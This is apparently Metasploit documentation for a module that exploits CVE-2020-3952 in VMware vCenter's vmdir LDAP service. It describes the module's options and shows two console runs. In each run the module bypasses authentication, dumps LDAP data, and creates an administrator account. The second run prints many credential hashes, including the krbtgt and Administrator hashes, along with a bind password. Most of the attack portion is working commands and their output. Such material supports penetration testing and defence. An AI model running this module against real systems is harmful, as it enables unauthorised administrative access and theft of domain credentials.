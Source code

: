 ## Vulnerable Application

### Description

This module bypasses LDAP authentication in VMware vCenter Server's
vmdir service to add an arbitrary administrator user. Version 6.7
prior to the 6.7U3f update is vulnerable, only if upgraded from a
previous release line, such as 6.0 or 6.5.
Note that it is also possible to provide a bind username and password to
authenticate if the target is not vulnerable. It will add an arbitrary
administrator user the same way.

### Setup

Tested in the wild. No setup notes available at this time, as setup will
be specific to target environment.

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Actions

### Add

Add an admin user to the vCenter Server.

## Options

### BASE_DN

If you already have the LDAP base DN, you may set it in this option.
`dc=vsphere,dc=local` will be used if not set.

### USERNAME

If you already have a password to authenticate to the LDAP server (see
USERNAME), this option let you setup the bind username in DN format (e.g
`cn=1.2.3.4,ou=Domain Controllers,dc=vsphere,dc=local`).

### PASSWORD

The password to authenticate to the LDAP server, if you have it.

### NEW_USERNAME

Set this to the username for the new admin user.

### NEW_PASSWORD

Set this to the password for the new admin user.

## Scenarios

### VMware vCenter Server 6.7 virtual appliance on ESXi (vulnerable target)

```
msf5 > use auxiliary/admin/ldap/vmware_vcenter_vmdir_auth_bypass
msf5 auxiliary(admin/ldap/vmware_vcenter_vmdir_auth_bypass) > options

Module options (auxiliary/admin/ldap/vmware_vcenter_vmdir_auth_bypass):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   BASE_DN                        no        LDAP base DN if you already have it
   DOMAIN                         no        The domain to authenticate to
   NEW_PASSWORD                   no        Password of admin user to add
   NEW_USERNAME                   no        Username of admin user to add
   PASSWORD                       no        The password to authenticate with
   RHOSTS                         yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT         636              yes       The target port
   SSL           true             no        Enable SSL on the LDAP connection
   USERNAME                       no        The username to authenticate with


Auxiliary action:

   Name  Description
   ----  -----------
   Add   Add an admin user


msf5 auxiliary(admin/ldap/vmware_vcenter_vmdir_auth_bypass) > set rhosts [redacted]
rhosts => [redacted]
msf5 auxiliary(admin/ldap/vmware_vcenter_vmdir_auth_bypass) > set new_username msfadmin
new_username => msfadmin
msf5 auxiliary(admin/ldap/vmware_vcenter_vmdir_auth_bypass) > set new_password msfadmin
new_password => msfadmin
msf5 auxiliary(admin/ldap/vmware_vcenter_vmdir_auth_bypass) > run
[*] Running module against [redacted]
not verifying SSL hostname of LDAPS server '[redacted]:636'

[*] Using auxiliary/gather/vmware_vcenter_vmdir_ldap as check
[*] Discovering base DN automatically
[*] Searching root DSE for base DN
dn: cn=DSE Root
namingcontexts: dc=vsphere,dc=local
supportedcontrol: 1.3.6.1.4.1.4203.1.9.1.1
supportedcontrol: 1.3.6.1.4.1.4203.1.9.1.2
supportedcontrol: 1.3.6.1.4.1.4203.1.9.1.3
supportedcontrol: 1.2.840.113556.1.4.417
supportedcontrol: 1.2.840.113556.1.4.319
supportedldapversion: 3
supportedsaslmechanisms: GSSAPI

[+] Discovered base DN: dc=vsphere,dc=local
[*] Dumping LDAP data from vmdir service at [redacted]:636
[+] [redacted]:636 is vulnerable to CVE-2020-3952
[*] Storing LDAP data in loot
[+] Saved LDAP data to /Users/wvu/.msf4/loot/20200417002255_default_[redacted]_VMwarevCenterS_975097.txt
[*] Password and lockout policy:
vmwpasswordchangeautounlockintervalsec: [redacted]
vmwpasswordchangefailedattemptintervalsec: [redacted]
vmwpasswordchangemaxfailedattempts: [redacted]
vmwpasswordlifetimedays: [redacted]
vmwpasswordmaxidenticaladjacentchars: [redacted]
vmwpasswordmaxlength: [redacted]
vmwpasswordminalphabeticcount: [redacted]
vmwpasswordminlength: [redacted]
vmwpasswordminlowercasecount: [redacted]
vmwpasswordminnumericcount: [redacted]
vmwpasswordminspecialcharcount: [redacted]
vmwpasswordminuppercasecount: [redacted]
vmwpasswordprohibitedpreviouscount: [redacted]

[+] Credentials found: [redacted]
[snip]
[*] Bypassing LDAP auth in vmdir service at [redacted]:636
[*] Adding admin user msfadmin with password msfadmin
[+] Added user msfadmin, so auth bypass was successful!
[+] Added user msfadmin to admin group
[*] Auxiliary module execution completed
msf5 auxiliary(admin/ldap/vmware_vcenter_vmdir_auth_bypass) >
```

### VMware vCenter Server 6.7.0.2 virtual appliance on ESXi (not vulnerable target)

```
msf6 auxiliary(admin/ldap/vmware_vcenter_vmdir_auth_bypass) > options

Module options (auxiliary/admin/ldap/vmware_vcenter_vmdir_auth_bypass):

   Name      Current Setting                         Required  Description
   ----      ---------------                         --------  -----------
   BASE_DN   dc=vsphere,dc=local                     no        LDAP base DN if you already have it
   USERNAME  cn=192.168.3.32,ou=Domain Controlle     no        The username to authenticate to LDAP server
             rs,dc=vsphere,dc=local
   PASSWORD  #$F4!4SeV\BL~L2gb(oa                    no        Password for the BIND_DN
   NEW_PASSWORD  NewPassword123#                     no        Password of admin user to add
   RHOSTS    192.168.3.32                            yes       The target host(s), see https://github.com/rapid7/metasploit-framework
                                                               /wiki/Using-Metasploit
   RPORT     636                                     yes       The target port
   SSL       true                                    no        Enable SSL on the LDAP connection
   NEW_USERNAME  MsfAdmin                            no        Username of admin user to add


Auxiliary action:

   Name  Description
   ----  -----------
   Add   Add an admin user


msf6 auxiliary(admin/ldap/vmware_vcenter_vmdir_auth_bypass) > run
[*] Running module against 192.168.3.32

[*] Using auxiliary/gather/vmware_vcenter_vmdir_ldap as check
not verifying SSL hostname of LDAPS server '192.168.3.32:636'
[*] User-specified base DN: dc=vsphere,dc=local
[*] Dumping LDAP data from vmdir service at 192.168.3.32:636
[*] Storing LDAP data in loot
[+] Saved LDAP data to /home/msfuser/.msf4/loot/20220112091121_default_192.168.3.32_VMwarevCenterS_063565.txt
[*] Password and lockout policy:
vmwpasswordchangeautounlockintervalsec: 300
vmwpasswordchangefailedattemptintervalsec: 180
vmwpasswordchangemaxfailedattempts: 5
vmwpasswordlifetimedays: 90
vmwpasswordmaxidenticaladjacentchars: 3
vmwpasswordmaxlength: 20
vmwpasswordminalphabeticcount: 2
vmwpasswordminlength: 8
vmwpasswordminlowercasecount: 1
vmwpasswordminnumericcount: 1
vmwpasswordminspecialcharcount: 1
vmwpasswordminuppercasecount: 1
vmwpasswordprohibitedpreviouscount: 5

[+] Credentials found: cn=192.168.3.32,ou=Domain Controllers,dc=vsphere,dc=local:$dynamic_82$95655cbf44635858cd5205e270d0c095b09a3b0420c88240152555b7166111d5066af66d8eb23dbdc8fd7fa82316f35e5ecb7133993318a5b1af8082dfe2899a$HEX$a0e9478dfe575f50655e1be5270a4949
[+] Credentials found: CN=waiter 5782491a-f3fb-4396-92fd-c85a9ecd6f76,cn=users,dc=vsphere,dc=local:$dynamic_82$fc2d53c4da909e23454bd4da49efd6ab2a141c78f3c066ba11ceda7da88603af84fcc8394f651ea786dd8881bbb6de6244802d82cef9733a020c71baf9fe2d50$HEX$55de181bfcc4806c7904bb9372cd1e71
[+] Credentials found: cn=krbtgt/VSPHERE.LOCAL,cn=users,dc=VSPHERE,dc=LOCAL:$dynamic_82$92aaa06a4299c9f91ae005023589df9a3c264c332daa308111fbbb6b289df296f10e9e11c5ecb42e80348887b78033830a4c069c3ef06504818fdf77f30b3932$HEX$93b772cbbe9d2dbc6ece52909df92416
[+] Credentials found: cn=K/M,cn=users,dc=VSPHERE,dc=LOCAL:$dynamic_82$8905aa15c186fdc63943561ae5e51aaf952dc0b0eb9daa4e669f9a77cad4cee941dadf0d7084b9740734991218ef9f5bc8fc729acdba9fe19ada7ab930d8c6b2$HEX$309a74eda966101876f3f9b628f33cee
[+] Credentials found: cn=Administrator,cn=Users,dc=vsphere,dc=local:$dynamic_82$2ae4d52129ba470fd198e4104ad64f8c8e60a2dd560825dfd97a48d0c2777cc863ea365a5f90f3565883b0e1f11ce4461d04dcad359ea5d786a3826012f5b4c6$HEX$2b5ec6876c4c93cad9fb4ff9e8a35930
[+] Credentials found: cn=vmca/192.168.3.32@VSPHERE.LOCAL,cn=Managed Service Accounts,dc=vsphere,dc=local:$dynamic_82$32a90598e8d80b2f6de98b349975c8013810b4deca01c37d0fe8db63dfaa930d0f9627ee5eda9a1ec0334683d0173c017da4b7294fdd80f36820cec6212a8814$HEX$f00b831d12cb5c1f686a9b73d7cb8127
[+] Credentials found: cn=ldap/192.168.3.32@VSPHERE.LOCAL,cn=Managed Service Accounts,dc=vsphere,dc=local:$dynamic_82$a149162f0449f7ec9dfd83b69ac43d14d01fc083136b2d2a5ada43052c4f6aca0c49c8384564498da1dc6ae801e3cb7468f9b09b1636b32982d2d3b889bf562b$HEX$33dc0eca659cec74bd5174604ff13d75
[+] Credentials found: cn=DNS/192.168.3.32@VSPHERE.LOCAL,cn=Managed Service Accounts,dc=vsphere,dc=local:$dynamic_82$a5e78bcf8b5292409ee8c551172a2e96bccb4b41cd06efb111d0c39331260e4142c8ebab62000f4c51e3e90bec471ede5248bc8a27d45145e7a9d7be1a4fa6eb$HEX$39af5d4ce088e1560966e374ec1ea042
[+] Credentials found: cn=host/192.168.3.32@VSPHERE.LOCAL,cn=Managed Service Accounts,dc=vsphere,dc=local:$dynamic_82$4c778c15111c4ff9792eb943beb7dff2be4b7b6e358b3b3b0eeb59be2ca3d6a8fcee55076164f532ef30487a38beef641f486528f33a576aa3d727f499d76ec7$HEX$477f56bdee35b3758204e3326f2f5460
[*] User-specified base DN: dc=vsphere,dc=local
not verifying SSL hostname of LDAPS server '192.168.3.32:636'
[*] Bypassing LDAP auth in vmdir service at 192.168.3.32:636
[*] Adding admin user MsfAdmin with password NewPassword123#
[+] Added user MsfAdmin, so auth bypass was successful!
[+] Added user MsfAdmin to admin group
[*] Auxiliary module execution completed
```
